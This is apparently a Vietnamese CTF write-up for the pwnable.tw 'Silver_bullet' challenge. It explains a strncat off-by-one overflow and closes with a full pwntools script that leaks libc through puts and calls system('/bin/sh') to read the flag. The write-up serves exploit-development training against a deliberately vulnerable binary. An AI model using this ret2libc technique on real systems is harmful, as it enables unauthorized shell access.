 # pwnable.tw - Silver_bullet

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
silver_bullet_patched: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=8c95d92edf8bf47b6c9c450e882b7142bf656a92, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi

![main.png](images/main.png)

# 2. Khai thác

![menu.png](images/menu.png)

Ở đây có 4 options cho ta lựa chọn

Do ở hàm power_up sau khi nhập lần cuối quá 48 ký tự sẽ không power_up được nữa 

![pow.png](images/pow.png)

Mình đã thử nhập quá xem sao

```
create(b"2")
power_up(b"a"*16)
power_up(b"b"*16)
power_up(b"c"*16)
power_up(b"c"*16)
```

Kết quả nhận được 

![pow1.png](images/pow1.png)

Ở đây mình đã chuyển từ dec sang hex `1667457823` = `0x6363631F` vậy là ta có thể over_write giá trị này.

Do câu lệnh `strncat(dest, s, 48 - *((_DWORD *)dest + 12))` của hàm `power_up` đã thực hiệu việc nối chuỗi đã khiến phần phía sau địa chỉ chuỗi trong stack 

bị ghi đè cũng là địa chỉ của v3 chính là `power`

Kế đến khi đã đủ `sức mạnh` thì cùng tiêu diệt quái vật thoi

![err.png](images/err.png)

Ở đây mình có thể thấy invalid addr tại địa chỉ trả về, mình đã sử dụng cyclic để tính toán và kiểm soát được địa chỉ trả về

Cộng thêm việc `PIE:      No PIE (0x8047000)` nên mình lợi dụng hàm puts leak libc, libc có chuỗi `/bin/sh` và cả hàm `system`

-> get_shell

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("silver_bullet_patched")
libc = elf.libc

local = False 
if local:
    p = process("./silver_bullet_patched")
    gdb.attach(p,'''
    b*create_bullet+110
    c
    c
    ''')
else:
    p = remote('chall.pwnable.tw', 10103)

elf = context.binary = ELF('./silver_bullet_patched', checksec=False)

def create(data):
    p.sendlineafter(b"Your choice :", b"1")
    p.sendlineafter(b"Give me your description of bullet :", data)
    print("\n[*]Create: Done")

def power_up(data):
    p.sendlineafter(b"Your choice :", b"2")
    p.sendlineafter(b"Give me your another description of bullet :", data)
    print("\n[*]Power up: Done")

def kill():
    p.sendlineafter(b"Your choice :", b"3")

put_got = 0x804afdc
put_plt = 0x080484a8
beat = 0x08048733
main = 0x08048954

create(b"2")
power_up(b"a"*16)
power_up(b"b"*16)
power_up(b"c"*16)
power_up(b"d"*7 + p32(put_plt) + p32(main) + p32(put_got) )
kill()
kill()
p.recvuntil(b"Oh ! You win !!\n")
libc_base = int.from_bytes(p.recv(4),"little") - 389440
system = libc_base + 0x0003a940
binsh = libc_base + 0x158e8b
print("[+]Libc_base:    ", hex(libc_base))
print("[+]Libc_system:  ", hex(system))
print("[+]Libc_binsh:   ", hex(binsh))

create(b"2")
power_up(b"a"*16)
power_up(b"b"*16)
power_up(b"c"*16)
power_up(b"d"*7 + p32(system) + p32(main) + p32(binsh) )
kill()
kill()
if local: 
    p.sendline(b"id")
else:
    p.sendline(b"cd home/silver_bullet")
    p.sendline(b"cat flag")
p.interactive()

```


